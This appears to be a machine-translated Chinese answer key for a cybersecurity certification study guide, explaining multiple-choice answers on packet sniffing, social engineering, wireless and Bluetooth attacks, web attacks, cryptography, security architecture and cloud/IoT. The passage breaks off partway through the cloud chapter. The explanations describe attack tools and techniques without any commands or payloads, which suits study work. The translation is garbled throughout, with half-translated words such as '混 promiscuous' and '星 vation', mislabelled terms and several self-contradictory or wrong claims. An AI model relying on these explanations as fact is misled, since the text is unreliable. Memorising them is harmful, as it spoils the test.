4. A. 默认情况下，`tcpdump` 会进行名称解析。除了查找端口号并打印其服务名称外，`tcpdump` 还会触发 DNS 查找。此 DNS 查找是网络流量，这意味着在大多数数据包中，捕获的数据包中很可能出现 DNS 查找请求。

5. C. BPF 在数据链路层工作。这使得可以过滤到 MAC 地址。如果 BPF 在其他层工作，你将得不到完整的包头集合。

6. C. 当没有对应的 ARP 请求时，发送 ARP 响应属于意外或不必要的消息。这使其成为 gratuitous ARP。

7. C. 虽然对话和端点是 Wireshark 可以获取的统计信息，协议层次结构视图展示了捕获中所有协议的层级视图，并为所有协议显示百分比。

8. D. `tcpdump` 和 `tshark` 都可以用于捕获数据包，但 `tshark` 允许你指定想要输出的字段。其他两个选项不存在。

9. C. 默认情况下，Wireshark 显示自捕获开始以来的相对时间。你可以将字段更改为显示绝对时间，例如当天时间或自 1970 年（epoch 时间）以来的时间。但这并不是显示的内容。

10. D. 在帧号、时间、源 IP 和目的 IP 之后是协议。此帧显示使用的是 TCP 协议。

11. C. `arpspoof` 和 Ettercap 都可以用于执行 ARP 欺骗。Ettercap 还支持其他类型的欺骗攻击和插件。`sslstrip` 是 Ettercap 支持的插件。`fragroute` 是一个完全不同的程序。

12. C. DNS 欺骗攻击需要程序能够看到 DNS 请求以便进行响应。这意味着需要已有 ARP 欺骗，以便 Ettercap（或其他工具）能够在网络上获得流量并收到 DNS 请求以进行响应。

13. A. `‑i` 标志指示你将在哪个接口上进行监听。`‑n` 标志告诉 Wireshark 不进行名称解析，从而保留 IP 地址和端口号的数值。

14. B. MAC 地址的数量可能小于层 3 地址的数量，因为多个 IP 地址可能与同一个 MAC 地址关联（例如离网的 IP 地址），其对应的 MAC 地址为网关的 MAC 地址。如果系统向同一系统开启多个连接（如渲染网页时），会有多个端口组合对应相同的 IP 源和目的。

15. A. `sslstrip` 用于获取明文流量。它不移除 SSL 请求，但可以用于将 HTTPS 请求转换为 HTTP 请求。它不转换 SSL 为 TLS 或 TLS 为 SSL，且没有特别优势。

16. B. `sslstrip` 于 2009 年发布，利用了 SSL 的问题。这些问题不仅存在于 SSL，也延续到 TLS 的早期版本。较新的 TLS 版本不存在此类问题，因此 `sslstrip` 将不再工作。

17. A. Wireshark 显示相对序列号，这意味着 Wireshark 视角下的初始序列号为 1。相对序列号像真实序列号一样递增。真实序列号是一个非常大的值，被隐藏以便于分析。

18. B. 在 Wireshark 中看到的方括号 `[]` 内容是 Wireshark 计算或推断的，而非直接从数据包捕获中提取的内容。Wireshark 通过计算帮助进行包分析。

19. C. 交换机仅通过将流量发送至与 MAC 地址关联的端口来过滤流量。交换机可靠，不支持层 3（虽然存在多层交换机具备路由功能），而端口镜像与此无关。交换机可以聚合端口，但端口镜像与此无关。

20. B. 将红irection 用于 Ettercap 的 `ipchains/iptables` 命令在不同文件中完成。`etter.dns` 文件中包含主机名到 IP 地址的映射以及其他 DNS 资源记录。

21. C. 在标志位中可以看到 PROMISC，这表明接口处于混 promiscuous 模式，这对于系统能够监听网络流量是必要的。没有混 promiscuous 模式，系统只能接收特定目标的数据包。虽然其他攻击也可能在进行，但仅凭此输出可以确定接口处于混 promiscuous 模式，暗示正在进行网络嗅探。

22. A. DHCP 星 vation 攻击可能导致拒绝服务，或使攻击者能够向终端注入带有伪造默认网关或伪造 DNS 服务器的配置。攻击本身不会让攻击者获得新的 IP 地址。

23. C. 大量 DHCPDISCOVER 消息是一种资源耗尽攻击，试图耗尽 DHCP 服务器可用的 IP 地址。这是 DHCP 星 vation 攻击。ARP 欺骗使用 ARP 消息，DNS 中毒是操纵 DNS 服务器，网络嗅探是将网络接口置于混 promiscuous 模式。

24. C. 交换机确保仅向目的主机的端口发送流量。集线器会将所有流量发送至所有端口。DHCP 负责动态主机配置，与嗅探无关。无需为嗅探接口配置 IP 地址。邮件服务器对嗅探无影响。

25. D. `sslstrip` 利用 SSL/TLS 加密的漏洞。该漏洞在后续 TLS 版本中已修复。SSL 版本和早期 TLS 版本都易受影响，TLS v1.3 不受 `sslstrip` 攻击影响。

## Chapter 10: Social Engineering

1. A. 生物特征是使用物理特征进行身份验证。Smishing 是利用短信（SMS/文本）收集信息。Rogue access 并不存在。Pretexting 是编造可信故事，用于社交工程攻击。

2. C. Baiting 是放置诱饵以获取目标。可以使用带有软件的 USB 马达或光盘作为诱饵，使目标系统感染并接受控制。其他选项虽与社交工程相关，但不叫 baiting。

3. B. 当看到他人行为时，人们会认为该行为是可以接受的。看到一排人排队抢 USB 马达，即使知道其危险，也可能降低防御，因无 reciprocity 或 authority，虽可能有 scarcity，但不是主要驱动力。

4. D. 生物特征和徽章访问属于物理访问控制。电话验证可能用于验证身份，但不防止 tailgating。Man trap 能防止 tailgating，因为它一次只允许一个人通过。

5. B. 尤其是在企业中，通常会有一些认证方式。这可能以预共享密钥或用户名/密码组合的形式出现。无论哪种情况，当你使用无线网络的社会工程学时，你大概率是在尝试获取凭证以访问网站。你不太可能用这种方式发送钓鱼信息或获取电子邮件地址，也不会用于进行电话诈骗。

6. D. 虽然你可能在模仿某人，但模仿并不是社会工程学的原则。此时既不涉及社会证明，也不涉及稀缺性。不过，如果你是从客服中心打电话，你可能处于权威位置。

7. B. 你是否能够更好地控制攻击的结果取决于手动执行。你不会通过自动化攻击比手动执行更能体现社会证明或展示权威。相反，你通过自动化降低了复杂度，因为手动操作需要设置并控制多个移动部件，过程复杂，若操作不当攻击就会失败。

8. A. 钓鱼（Vishing）和短信钓鱼（smishing）是非动能的社会工程学手段。稀缺性并不是社会工程学的向量。冒充是一种社会工程学向量，也是用于未经授权进入设施的手段。

9. C. 假装前同事发送邮件时，你可能在运用多种社会工程学原则。因为你有故事和欺诈收集信息的手段，你使用的是预设情境（pretexting）。其他攻击也是社会工程学，但不属于预设情境。

10. C. `wget` 是这些选项中唯一合法的程序，可以用来克隆网站。

11. B. 有些人会在 USB 接口处环氧封装，以防止 USB 盾牌插入，但这并不是好办法，且不会阻止以光盘为饵的攻击。浏览 Internet 很常见，停止浏览并不能保护你免受饵攻击。注册表克隆在这种情境下并不存在。禁用自动运行（autorun）可以阻止恶意软件从外部设备自动运行。

12. D. 假正接受率（false acceptance rate）衡量的是生物识别系统错误地允许未授权人员进入设施或区域的频率。假负（或拒绝）率会带来不便，某些组织可能认为这很严重，尤其是当其值很高时。但高假正率更令人担忧，因为它允许真正未授权的人员获得进入。另外两项不是可计量的统计指标，虽然它们与其他指标相关联，但它们不叫假阳率或假阴率。

13. A. 在这些选项中，声纹识别（Voiceprint identification）最不可靠。因此，它最有可能导致高假负率（false reject rate），从而降低真实接受率（true accept rate）。

14. D. 亲 proximity 卡（proximity card）可能会导致跟随进入（tailgating），但它并非唯一因素 —  — 钥匙同样可以实现跟随。技术上，是门的配置和实现方式让跟随成为可能，而非卡本身。钓鱼与此无关，技术性凭证盗取（credential theft）也无关。尤其是使用 RFID 标签的亲 proximity 卡，容易被克隆。

15. C. 视网膜（retina）和 uvea 虽然也是眼部结构，但它们并不包围瞳孔。指纹不属于眼部。

16. A. 假正接受率意味着允许未授权人员进入。如果你是授权人员但生物识别扫描器不可靠而拒绝你，你可能需要联系安保或其他人员让你进入大楼。另外两项并非高假负率的结果，它们可能是其他问题的解决方案，而非高假负率的表现。

17. B. 钓鱼短信（smishing）是短信钓鱼，意味着有人发送短信，试图欺诈性地获取信息。钓鱼（vishing）是电话（语音）诈骗。钓鱼（phishing）是一个总称，通常指电子邮件。冒充更多是一种物理手段。

18. A. 预设情境（pretexting）可以通过电子邮件同样有效，甚至可能更常见，因为人们通常比手机更常使用电子邮件，尤其是公司内部的固定电话。钓鱼攻击之所以如此普遍，是因为它们成功率高。通过电话，你可以更详细地解释并即时回答疑问或顾虑。你可以在电话中加入电子邮件难以实现的额外层次，因为你无法确定邮件是否被阅读、删除或被过滤。

19. B. Captive portal 是你在连接公共接入点时出现的页面。其他选项都不是真实存在的概念。

20. C. 你可能会进入 Meterpreter 远程系统的会话，但它不会用于生成攻击。`wifiphisher` 仅用于 Wi‑Fi 攻击，Social Automator 不存在。社会工程工具包（Social‑Engineer Toolkit, SE Toolkit）可以用于自动化电子邮件攻击以及无线攻击。

21. D. 预设情境（pretexting）是你用来解释为何联系某人的故事。身份盗窃（identity theft）是窃取个人信息以进行欺诈。联系 spamming 是指 compromised 邮箱向其联系人大量发送邮件。饵攻击（baiting）是指像 USB 盾牌等带有恶意软件的实物，诱使用户插入从而感染系统。

22. C. “quid pro quo” 意为“一物换一物”，但此情形中并没有“一物换一物”。你没有被克隆，也没有被多次创建的电子邮件账户（一个账户只能有一个实例）。物理陷阱用于实体安全。这是联系 spamming，且账户很可能已被 compromise。

23. B. 你记忆中第一本读的书不太可能对攻击者有用。社会安全号码（Social Security number）能够用于窃取身份，因而非常有价值。其他信息常用于验证身份，同样有用。

24. B. 攻击者假装是你的母亲的可能性很低，因为你会立刻知道是否是母亲打电话。汽车经销商无法从你这里获取 mucho 信息，尤其是你目前不打算购车。希望你的狗不会向你提问。客服人员可能在提供“技术支持”的同时询问凭据，以便帮助你。

25. C. 其余选项都是保护个人信息的良好方式。加密文件系统如果里面没有个人信息，可能根本不起保护作用。而且，如果账户被 compromise，文件系统上的数据即使用户权限，攻击者仍能访问。

## Chapter 11: Wireless Security

1. D. 基础设施无线网络（infrastructure wireless network）使用接入点（access point），而自组织无线网络（ad hoc wireless network）由参与者自行组织。这两种是无线网络的主要类型。星、环、总线和混合都是有线拓扑结构。

2. B. WPA 握手使用四个阶段。这四步过程用于派生密钥并协商功能。

3. B. 促销模式（promiscuous mode）用于在网络接口上收集所有非目标帧，但仅在有线网络上才足够，因为无线电头信息不会被捕获。要捕获无线电头，需要在促销模式之外启用监听模式（monitor mode），只有监听模式才能获取完整的无线电头信息。

4. C. Sniffing 可以用于收集后续发起无线攻击所需的信息。去认证攻击（deauthentication attack）可强制设备生成流量。恶意双子攻击（evil twin attack）利用一个恶意的接入点假装成合法网络。要解密网络流量，你需要密钥。获取密钥的一种方法是重用已生成已知密钥的流量信息，这称为密钥重装攻击（key reinstallation attack）。

5. C. Bluetooth 不使用端口。虽然协议（profiles）很重要，但在配对过程中才会获取协议的功能。仅进行扫描（scan）无法得到已支持的协议列表。虽然在进行蓝牙扫描时可以识别供应商，但这并不是扫描的目的。扫描的目的是识别终端及其关联的地址，以便对它们进行其他攻击。

6. B. 去认证攻击的目的是强制设备重新认证，从而收集认证和握手过程中的信息。这些信息随后可能用于推导密钥，正如 WEP 传输中所做。去认证攻击并不使设备失效。无法减少握手步骤的数量，且降级加密相当困难，如果可能的话。

7. A. 自带设备（BYOD）是一项允许员工在企业网络中使用个人设备的政策。这为来自未知和意外设备的攻击打开了大门。其他选项均不是真实存在的事物。

8. C. 初始化向量（initialization vector）是一个随机值，用于种子用于加密和解密的密钥。在 WEP 中，用于初始化向量的算法产生的值是非随机且可预测的。虽然初始化向量是密钥的一部分，但它本身并不是导致弱点的原因。种子向量并不是真实概念，Diffie–Hellman 是用于安全派生和交换密钥的过程，它并不属于 WEP。

9. B. 四阶段握手用于向无线网络的站点进行认证。握手过程中会生成加密密钥。密钥在交易的两端各自派生，而非直接交换。这全部在四阶段握手中完成。密钥不会直接传递。只有在四阶段握手完成并生成密钥后，才能对消息进行加密。不存在所谓的初始化种子。

10. C. 服务集标识符（SSID）用于标识网络，是你在尝试连接网络时选择的名称。SSID 不是 MAC 地址，也与密钥或加密无关。


11. D. 临时（ad hoc）和基础设施（infrastructure）是无线网络的两种类型。只有基础设施使用接入点，但基础设施本身不是接入点的类型。WPA 是加密协议。恶意双子攻击使用的“邪恶双子接入点”（rogue access point）是指伪装成合法接入点的非授权接入点。

12. B. 恶意双子攻击使用一个冒充合法无线网络的接入点，诱使站点尝试连接到该伪装接入点。虽然在恶意双子攻击中可能会尝试钓鱼获取凭证，但凭证钓鱼并不是该攻击的核心方式。SSID 不会在恶意双子攻击中被更改，即不会把已存在的 SSID 变成另一个 SSID。注入四阶段握手并没有多大作用，因为四阶段握手假设两端已经在通信，注入的完整通信流量会被忽略。

13. C. 苹果 App Store 和 Google Play Store 分别由 Apple 和 Google 控制。虽然通过它们传播恶意软件并非不可能，但难度较大，因为应用会经过审核流程。即使某些 Android 设备支持外部存储，这也不是将恶意软件安装到手机或其他移动设备上的有效方式。越狱（jailbreaking）可能导致恶意软件安装，但它本身不是获取恶意软件的手段。第三方应用商店是获取恶意软件的良好途径，因为部分第三方商店对提交的应用进行审核。

14. B. 蓝牙劫持（bluebugging）攻击用于获取智能手机访问权限，从而向攻击者的手机发起呼叫，让攻击者窃听手机使用者周围的声音。扫描用于发现附近的蓝牙设备。并没有特定的攻击手段用于启用手机摄像头。从目标设备或系统收集数据属于蓝牙窃取（bluesnarfing）。

15. A. 虽然有些蓝牙设备的传输距离更远，但蓝牙 4.0 的常见范围约为 300 英尺（约 100 米）。

16. D. `tcpdump` 可用于捕获帧/包。Ettercap 用于捕获和伪造攻击，但两者都无法捕获所有头部，包括无线网络的射频头部。`aircrack-ng` 包中的 `airmon-ng` 程序可以开启网络接口的监听模式。`aircrack-ng` 本身不能实现此功能。

17. B. 蓝牙窃取（Bluesnarfing）是一种连接蓝牙设备并窃取其数据的攻击。Bluesnarfing 会将数据发送给攻击者。蓝牙劫持（Bluejacking）可用于向蓝牙设备发送信息（如短信）。这两种攻击都不安装键盘记录器。

18. C. Wireshark 用于捕获网络的包/帧。Ettercap 用于伪造攻击。`aircrack-ng` 可用于破解无线密钥。`wifiphisher` 则可用于搭建恶意双子攻击。

19. B. WPA 支持个人（Personal）和企业（Enterprise）两种认证方式。个人认证使用预共享密钥（PSK），而企业认证使用用户名和密码对特定用户进行认证，提供审计和访问控制，即我们能确切知道谁已连接到网络。

20. D. 无线网络的射频头部会提供设备的功能信息，因为这在关联（association）过程中协商完成。还能看到探测请求，询问周围有哪些网络，包括设备已知的特定网络，请求中会包含 SSID。响应也会包含 SSID。但射频头部不会提供网络类型。

21. C. WPA3 采用“等效认证”（SAE）同时认证。之前的版本仅使用四阶段握手。另外两个答案均不存在。

22. D. Bluesmack 是一种因操纵发送到受害系统的数据包大小而导致的拒绝服务（DoS）攻击。其他攻击虽属蓝牙范畴，但不会导致拒绝服务。

23. B. 利用薯条罐（Pringles can）可以增强无线信号，对无线覆盖范围（footprinting）或车载窃听（wardriving）很有帮助。恶意双子攻击用于模仿已有的无线网络。密钥重装（key reinstallation）是另一种无线攻击。蓝牙窃取（Bluesnarfing）是蓝牙攻击，不需要使用薯条罐。

24. A. 进行蓝牙泄漏（Bluedump）攻击需要 BDADDR（蓝牙 MAC 地址）。IP 地址不会在蓝牙攻击中使用。其他选项均不存在。

25. D. 木板（plywood）和石膏板（sheetrock）对无线信号几乎没有阻挡作用。玻璃提供的阻挡极小。如果想让无线信号留在建筑内部，应使用混凝土作为建筑材料。砌块和砖块同样效果良好。

## Chapter 12: Attack and Defense

1. B. 虽然 DNS 也可用于放大攻击，但 Smurf 攻击是有人向网络广播地址发送 ICMP 回显请求。回显响应会被发送到请求的来源地址（被伪造），如果足够多的系统响应，流量量会压倒目标系统。

2. C. SQL 注入攻击利用 SQL 查询，查询中可能包含会改变应用程序流程的逻辑。在提供的示例中，目的是强制 SQL 查询的结果始终为真。它的写法是为了转义应用程序中已存在的查询。其它攻击都不使用类似示例的语法。

3. C. 由于 TCP 使用三次握手，像放大攻击所需的伪造难以实施。SMTP 也使用 TCP。XML 用于数据结构和呈现。DNS 常用于现代放大攻击。

4. A. SYN 洪水利用三次握手的特性。单独的 SYN 报文会在操作系统的连接缓冲区中消耗连接资源。在完成三次握手之前，请求不会到达应用层的 Web 服务器。SYN 不是用于 UDP 的标志位。

5. B. 慢速 loris 攻击用于在 Web 服务器上保持打开的连接缓冲区。足够多的这类请求会耗尽 Web 服务器的所有可能连接。应用层不存在此类缓冲区，因为 Web 服务器不使用 UDP 进行 HTTP 请求，慢速 loris 针对的是 Web 服务器。

6. C. 堆喷（Heap spraying）使用动态分配的内存来存放攻击代码。慢速 loris 攻击用于保持 Web 服务器的连接缓冲区打开。SQL 注入用于向数据库服务器注入 SQL 查询。缓冲区溢出会将超过分配空间的数据写入应用程序。

7. D. 跨站脚本（XSS）攻击使用脚本语言在浏览器中运行。由于浏览器属于用户，最终攻击对象是用户，即使注入代码存储在数据库服务器上。

8. D. 跨站脚本通常使用 JavaScript 或可能的 VBScript。SQL 注入使用 SQL。命令注入使用操作系统命令。片段展示了 XML 使用外部实体。这是 XML 外部实体注入（XXE）。

9. B. SQL 注入攻击从用户/攻击者处注入数据。所有来自用户的数据在被处理前都应进行验证。用户输入不应被信任。其它选项均不能用于防止 SQL 注入攻击。

10. A. 防御深度（Defense-in-depth）网络设计使用多层防御措施，使得攻破内部网络更为困难。SIEM 用于收集和关联日志和情报。Web 应用防火墙（WAF）保护应用层攻击。日志管理系统就是它的名字。防火墙在防御深度网络设计中常被使用。

11. A. 防御宽度（Defense in breadth）从防御深度开始，考虑更广泛的攻击策略。防御宽度不一定能防止 SQL 注入，也不太可能防止缓冲区溢出或堆喷攻击。虽然可以通过更广泛的攻击考虑来实现这些防护，但防御宽度最终是通过综合多种攻击来实现。

12. C. 缓冲区溢出攻击针对在编译时已知且非动态的栈数据。XSS 和慢速 loris 不会将代码注入内存。堆喷攻击会将代码注入堆，即动态分配的内存区域。

13. C. 缓冲区溢出会将多余的数据存入无法容纳的内存位置。SQL 注入使用 SQL。命令注入使用操作系统命令。XSS 使用如 JavaScript 或 VBScript 等脚本语言，注入的脚本通过 `<script>` HTML 标签实现，`%3C` 表示 `<`，`%3E` 表示 `>`，因此 `%3Cscript%3E` 解码后为 `<script>`。

14. B. Base64 编码将不可打印字符转换为可在文本中显示的形式。加密通常使文本对人类不可读。加密散列生成固定长度值。URL 编码使用十六进制表示字符，以便在 URL 中使用。

15. D. 慢速 loris 攻击使用小的 HTTP 请求保持 Web 服务器的连接打开。虽然也有使用慢速请求体的攻击，但慢速读取攻击是通过分小块下载文件来阻止合法请求的服务。

16. D. 防火墙和 IDS 会生成日志，但不负责收集它们。日志管理系统会收集并可能聚合日志，但通常不关联日志消息。SIEM 会消费日志、聚合并关联它们。

17. A. 命令注入将操作系统命令注入 Web 应用，以便由操作系统执行。Web 服务器本身不是命令注入的目标，也没有针对数据库服务器或用户的攻击。

18. C. Low Orbit Ion Cannon 是基于 .NET 的拒绝服务攻击工具，不用于日志管理、SQL 注入或缓冲区溢出。

19. B. SIEM 输出对理解当前攻击有用，日志和入侵检测系统也同理。攻击生命周期是结构化的方式，帮助了解攻击过程，从而更好地制定防御策略，为每个阶段实施控制。

20. C. 栈指针指示栈在内存中的位置，帧指针指示当前帧在栈中使用的部分。操作系统视角没有缓冲区指针，但应用程序使用指针指向缓冲区。指令指针告诉处理器下一条要执行的指令。控制该信息可以让攻击者控制程序的执行流。

21. B. Web 应用防火墙（WAF）可用于防范 Web 应用攻击，包括 SQL 注入。它可以用于检测或阻止这些攻击。返回 `libc` 是绕过缓冲区溢出防护的一种手段。地址空间布局随机化（ASLR）和栈守卫（stack canaries）也是缓冲区溢出防护的措施。

22. D. 文件遍历攻击试图突破 Web 服务器的“监狱”，让攻击者访问超出指定目录的文件。XSS 通过浏览器影响用户系统。SQL 注入针对数据库服务器，而命令注入针对操作系统，尝试在应用中注入 shell 命令。

23. D. 防御深度（Defense in depth）主要关注保护，而可防御的网络架构则关注能够遏制攻击者并监控其活动。DMZ 用于保护更大网络免受攻击者。防火墙用于保护，蜜罐是欺骗机制，恶意软件防护侧重于保护。

24. C. 蜜罐（Honeypot）用于诱骗攻击者，提供感兴趣的内容让他们在该系统上停留，从而便于监控。防火墙可以阻断恶意流量，但不会用于陷阱。DMZ 用于将面向 Internet 的系统与企业内部网络隔离。

25. A. 一个堆栈守护（stack canary）可以用于检测缓冲区溢出攻击。缓冲区溢出是一种攻击技术。返回 `libc` 是利用固定、已知地址在缓冲区溢出攻击期间跳转的方法。不存在“返回 JavaScript”的说法。

## 第 13 章：密码学

1. C. 这是一个密钥为 4 的旋转密码。当你将字母表旋转 4 位时，就会得到 e = a、r = n、w = s 等等。除了不是正确的解密方式外，其他任何方式都没有正确的字符数。在像旋转密码这样的替换密码中，输出的字符数始终与输入相同。

2. B. 在密码学中，任何未加密的数据或信息都称为明文（plaintext）。加密过程的输出称为密文（ciphertext）。虽然你可能会把文本作为加密过程的输入，但在这种情况下，“文本”一词会产生歧义。另外两项与密码学无关。

3. C. 当证书颁发机构（CA）使用集中机制验证用户或证书主体时，PGP 采用分散式模型。PGP 称之为“信任网络”，个人用户签署其他人的密钥，以验证对方身份。其余选项均为编造的术语。

4. A. 完整性是 CIA 三要素之一，但不是将已签名消息与签名证书主体关联的原则。不可辨认性是无意义的，权威在此情境下不相关。相反，不可否认性（nonrepudiation）意味着签名者不能否认自己发送了消息，前提是其密钥在其所有权且受密码保护，只有其本人才能使用，从而防止他人冒用。

5. C. 证书可以撤销，但这并不是 Diffie–Hellman 所使用的。密钥管理是比密钥交换更宽泛的主题，而 Diffie–Hellman 用于密钥交换。它是一种让两方在加密对话中共同派生相同密钥的过程，起始值相同。

6. D. 3DES（三重 DES）使用三个密钥。第一个密钥用于加密明文。第二个密钥用于解密第一轮加密后得到的密文。最后，第三个密钥用于加密第二轮解密后得到的密文。168 位密钥并不是单个密钥的长度，底层 DES 算法仍然使用。

7. A. 用于椭圆曲线密码学（ECC）的算法并不一定更复杂。虽然它们不使用因数分解，但仅凭此并不一定意味着算法更好。相反，ECC 基于这样一个假设：计算椭圆曲线上点的离散对数在一致的方式中是不可行的。椭圆曲线密钥的长度实际上小于使用大质数因数分解得到的密钥。

8. B. 当两个不同的数据集产生相同的密码散列时，称为碰撞（collision）。它与生日悖论（birthday paradox）有关，但两个值相同并不是悖论。它也不是不现实的，也不是故障。

9. C. 非对称密码学使用两个相关的密钥。一个用于加密，一个用于解密，这两个密钥被称为公钥和私钥。由于使用公钥对消息所有者的配对私钥进行加密，这种加密方式常被称为公钥加密（public key cryptography）。它既不是单因子也不是多因子认证，因为它不涉及身份验证。

10. C. 公钥加密之所以可行是因为公钥可以提供给任何人。使用公钥能做的唯一操作是加密一条消息，该消息只能由对应的私钥解密。该过程使用非对称加密，因此不是对称密钥。私钥必须由其所有者持有并受保护；如果私钥泄露，任何使用公钥加密的消息都可以被解密。PGP 使用公钥/私钥对，且没有自己的密钥类型。

11. D. 这就是说，如果 A 信任 B 且 B 信任 C，则 A 可以信任 C。这是传递性（transitive property）的应用。交换律和结合律也是数学原理，但不存在所谓的“通信属性”。

12. A. 对称密钥加密通常优于非对称密钥加密，因为对称密钥使用更短的密钥和更少的资源，加密/解密耗时更短。这并不意味着更安全，即使在此语境下定义“安全”也如此。对称密钥并不更易实现，非对称密钥也不受专利束缚，因此 C 与 D 错误。

13. B. 当同时使用对称键和非对称键时，通常是用非对称键保护对称键，这称为混合密码系统（hybrid cryptosystem）。其他选项均不存在。

14. D. 媒体访问控制（MAC）是附加在物理网络接口上的地址。正确答案是消息验证码（message authentication code），因为 SHA‑1 和 MD5 常用作消息验证码，以确保消息未被篡改。这意味着消息被认证。

15. B. PGP 使用公钥和私钥。公钥存储在公共位置（如密钥仓库）。由于有两把钥匙，PGP 采用非对称加密，也称为公钥加密。

16. B. Hydra 用于对网络服务进行密码暴力破解。tlsscan 和 cipherscan 不存在。虽然 SSL 协议已被废弃多年，但仍被广泛使用，因此工具是 sslscan。

17. C. 防止相关键（related keys）的措施在实现层面而非规范层面完成。AES 的实现不应允许相关键被发行。其他选项均不正确。

18. A. 证书颁发机构（CA）是可信的第三方，用于验证用户及其身份，从而免除每个人自行验证每个用户的需要。CA 并不更快，也不提供更强的密钥。CA 不负责决定支持哪些密码套件，只负责证书本身。

19. D. 证书撤销列表（CRL）用于指示证书不再有效。对列表进行哈希无济于事，重新验证身份仅在证书完全过期时才可能需要。证书到期后可以放入 CRL。定期更新 CA 是模糊的，可能指更新软件，这并不能保持证书列表及时更新。

20. D. 不可否认性（nonrepudiation）的属性表明，属于个人的密钥在私钥受密码保护且不对外可用的前提下，只能由该个人使用；因此，由其密钥签名的消息必然来自该人。虽然加密消息与机密性相关，签名本身并不等同于加密。其他属性与此情境无关。

## 第 14 章：安全架构与设计

1. B. Biba 安全模型涉及数据完整性。虽然其他模型涉及机密性，但没有任何模型涉及可用性。

2. D. n‑层应用（n‑tier application）有时也称为多层应用，可以有任意数量的层。虽然你可能认为只有三层，但根据设计可以有更多层。

3. C. JSON（JavaScript Object Notation）使用键值对存储数据。虽然理论上可以在 JSON 中表示关系型数据库，但这并不高效。SQL 是用于查询关系型数据库的语言，文档型数据库更可能使用其他文档格式来存储数据。

4. C. NIST 网络安全框架规定了五个功能：识别、保护、检测、响应、恢复。

5. C. ISO 27001 规范采用的方法与 NIST 网络安全框架不同。ISO 27001 规定了计划、执行、检查、改进四个步骤。

6. A. 美国政府使用的最高级别分类是“顶级机密”。机密和受限是较低的级别，而“仅限查看”并不是美国政府使用的分类。

7. D. 微通道体系结构是 IBM 在 1990 年代提议并实现的用于硬件系统间外设交互的规范。面向服务的架构是一个较早的概念，已在一定程度上被微服务所复兴。其他选项都不是真实存在的事物。

8. C. 基础设施即服务（IaaS）是一种云端提供的服务，企业可以直接获取服务器用于其基础设施。面向服务的架构是一种潜在的应用设计方式。AWS 的所有内容均为虚拟化，这留下了无服务器（serverless）的可能性。Lambda 函数不需要预 visioning 服务器来支持它们。函数及其数据的所有处理均由 AWS 基础设施完成。

9. C. Clark–Wilson 完整性模型规定了受约束数据项（CDI）和未受约束数据项（UDI），用于识别和实施规则。其他答案要么不存在，要么与信息安全无关。

10. D. 模拟是指应用程序可以在未编译的处理器上运行，因此指令码被模拟。AWS 是亚马逊云科技，它可以提供应用程序虚拟化服务，但本身不是一种应用虚拟化。半虚拟化是部分虚拟化。容器是一种在不使用完整虚拟机的情况下隔离应用的方式。

11. A. NIST 设计的五个功能是：识别、保护、检测、响应、恢复。在完成识别之前，你不能执行其他任何功能，因为识别定义了业务需求和必需资产。

12. D. 在 n‑层应用设计中，常见的核心功能包括浏览器、应用服务器、数据库服务器。还可能有安全功能、负载均衡器以及位于应用服务器前的 Web 服务器。当只关注核心时，应用服务器位于架构的中间位置。

13. B. MongoDB 是一种非关系型（NoSQL）服务器，而 SQL Server 虽然名称模糊，但通常指 Microsoft SQL Server，它不是开源的。Oracle 是一家拥有关系型数据库服务器的公司，包括 MySQL，但只有 MySQL 是开源的。

14. C. Bell–LaPadula 简单安全属性规定，主体不能读取高于其安全级别的对象。其他选项均不正确。


15. D. 部分答案混合了 NIST 的五个功能与 ISO 27001 的循环阶段。唯一仅包含 ISO 27001 阶段的选项是 D，即计划、执行、检查、改进。

16. B. 云端应用常被零信任企业使用，而多因素认证是必需的，因为所有资源访问都必须经过认证。VPN 和 VDI 经常用于让远程客户端访问资源。

17. C. 无服务器计算采用事件驱动模型。其他选项是不同类型的编程，与无服务器计算无关。

18. D. 短信（SMS）容易被劫持，而基于推送的批准可以用于绕过多因素认证。用户名/密码本身不是多因素认证。一次性密码（无论是由令牌还是应用提供）是这里最佳的选择。

19. C. 网络杀链（Cyber Kill Chain）是由 Lockheed Martin 开发的攻击过程描述。它对其他选项并不有用。

20. B. Syslog 是 Unix 系统的日志系统，可能不适用于 Windows 设备，而 Windows 工作站是常见的用户终端。SAP 是企业软件，可能大多数用户不使用。SCCM 对于管理 Windows 系统至关重要，但并不专门用于保护工作站。EDR（端点检测与响应）可以帮助保护工作站。

# Chapter 15: Cloud Computing and the Internet of Things

## 1. A
Chromebook 是一款带有传统用户界面的笔记本电脑，包括屏幕和键盘。其他设备虽连网但没有传统用户界面，仍可被网络访问者访问。

## 2. B
HTTP 是无状态协议，需要应用自行处理状态转移。REST（Representational State Transfer）允许客户端与服务器之间交换关于客户端和应用状态的信息。HTML 不是协议而是语言，因而“状态”概念不适用。

## 3. D
基础设施即服务（IaaS）将操作系统的控制权交给客户。其他服务则把更多控制权交给服务提供商。

## 4. C
云原生设计利用众多技术使应用更具响应性，常见包括容器（应用虚拟化）。虚拟机启动比容器慢。自动化和微服务架构是云原生设计的重要组成部分。

## 5. B
自动化带来一致性，因为脚本每次执行都相同，从而实现可重复性，也便于测试。但不一定提供容错能力。

## 6. C
计算设备通常遵循冯·诺曼架构：拥有内存、存储和处理器。通用计算设备会有输入/输出接口供用户交互；物联网设备则有专用的、可能不易让普通用户交互的输入/输出设备。例如，智能恒温器只有简单显示，用于显示温度并让用户调节期望温度。

## 7. C
存储即服务（Storage as a Service）用于存储文档，并可共享这些文档。虽然其他云服务也能共享文档，但存储即服务是最常见的选择。

## 8. B
Cloudscan 用于评估云服务。Samba 是基于服务器消息块（SMB）协议的网络共享应用。Postman 是用于测试 Web API 的工具。`nmap` 是端口扫描工具，可用于识别网络中的设备及其开放端口。

## 9. D
虽然 NoSQL 数据库、数据总线和微服务架构可以用于构建带移动前端的 Web 应用，但最可能的实现方式是 RESTful API，因为它抽象了后端实现，无论后端是什么都能通过 API 与移动设备交互。

## 10. C
实施安全控制是必不可少的，无论服务部署在何处。企业通常知道如何在本地系统中实施这些控制，但可能不清楚在云环境中如何正确实施。其他选项虽可能在本地环境中出现问题，但并非专属于云环境的挑战。

## 11. B
雾计算是一种提供更贴近“地面”的计算和存储资源的方式，其中物联网设备通常位于此处。云原生设计可用于支持使用云服务的物联网设备，但云服务本身并不等同于雾计算。访问管理是任何良好安全设计的重要组成部分，但雾计算并不专门支持访问管理。最后，网格计算是一种分布式处理模型。

## 12. A
SETI@home 是网格计算的一个例子，因为它在大量系统之间进行分布式处理。Shodan.io 和 Thingful 都与物联网相关，而 OWASP Top 10 是一份 Web 应用程序漏洞清单。

## 13. C
